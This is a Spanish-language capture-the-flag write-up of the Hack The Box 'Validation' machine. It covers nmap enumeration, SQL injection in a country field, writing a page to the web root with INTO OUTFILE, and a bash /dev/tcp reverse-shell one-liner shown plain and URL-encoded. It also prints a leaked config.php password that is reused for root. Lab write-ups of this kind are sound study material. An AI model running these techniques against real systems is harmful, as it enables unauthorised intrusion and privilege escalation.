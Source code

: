 ```yaml
---
title: "Write Up - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/validation.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | ipsec
Dificultad | Fácil
Liberación | 13 Septiembre 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.11.116 solo encontramos que está abierto el 80 (web),22 (SSH),8080,4566
```
# Nmap 7.92 scan initiated Wed Aug  3 11:19:23 2022 as: nmap -p22,80,4566,8080 -sCV -O -oN nmap/NMAP validation.htb
Nmap scan report for validation.htb (10.10.11.116)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug  3 11:19:45 2022 -- 1 IP address (1 host up) scanned in 22.46 seconds
```

Empezamos a enumerar directorios e interactuamos con la web, usando nmap –script=http-enum, y solo encuentra account.php. No se encuentra nada más y solo podemos interactuar con la web.

Al registrarnos en la web nos damos cuenta de que envía un usuario y un país, el cual luego nos muestra nuestro usuario para el país que se eligió. Entre más usuarios registramos a la web más se muestra en la web como usuario, es por ello por lo que podemos pensar que la aplicación puede hacer un INSERT a una base de datos y luego genera un SELECT con el WHERE al país seleccionado. Probamos un SQL injection tanto en el usuario y en el país, y nos percatamos que en la variable country es vulnerable.

Probamos enumerar información importante en la Base de Datos (nombre de base de datos, tablas, usuarios). Descubrimos que la Base de datos que se utiliza es Maria DB 10.5.11

## 1° Shell

Mientras se prueba el SQL injection descubrimos que la web está en /var/www/html, además podemos crear archivos con el SELECT “<CONTENIDO DEL ARCHIVO>” INTO OUTFILE “<RUTA ESPECIFICA DEL ARCHIVO>» y esto nos genera un archivo en la ruta especificada.

Con este pagina creada podemos crear una Shell reversa con el siguiente bash -c ‘bash -i>& /dev/tcp/10.10.14.12/4444 0>&1’ al tratar de ejecutar no nos carga la Shell reversa, es por ello que codificamos el comando en URL ENCODE %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%34%34%34%34%20%30%3e%26%31%27, y nos carga la Shell (esto pasa por que el navegador debe codificar el dato antes de enviarlo).

## 2° SHELL (root)

Revisando con el www-data vemos que no hay usuario para el sistema, pero en /var/www/html hay un archivo config.php con usuario y contraseña (uhc:uhc-9qual-global-pw) para conectarse localmente a la máquina, probamos esta clave con el usuario root.

![Racso](https://www.hackthebox.com/badge/image/159593)